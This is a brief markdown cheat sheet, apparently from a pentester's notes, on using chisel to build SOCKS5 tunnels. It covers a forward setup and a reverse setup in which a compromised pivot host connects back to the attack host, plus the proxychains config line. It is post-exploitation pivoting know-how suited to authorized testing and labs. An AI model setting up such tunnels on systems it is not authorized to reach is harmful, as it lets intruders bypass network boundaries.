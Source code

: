 # Socks Tunnelling

## Server on Pivot

1. Start the server on the *pivot host*:
```shell
./chisel server -v -p <server-port> --socks5
```

2. Connect to the server using the client on the *attack host*:
```shell
./chisel client -v <server-host>:<server-port> socks
```

3. Modify proxychain's config by adding:
```plain
socks5 127.0.0.1 1080
```

## Client on Pivot

1. Start the server on the *attack host*:
```shell
sudo ./chisel server --reverse -v -p <server-port> --socks5
```

2. Connect to the server using the client on the *pivot host*:
```shell
./chisel client -v <server-host>:<server-port> R:socks
```

3. Modify proxychain's config by adding:
```plain
socks5 127.0.0.1 1080
```

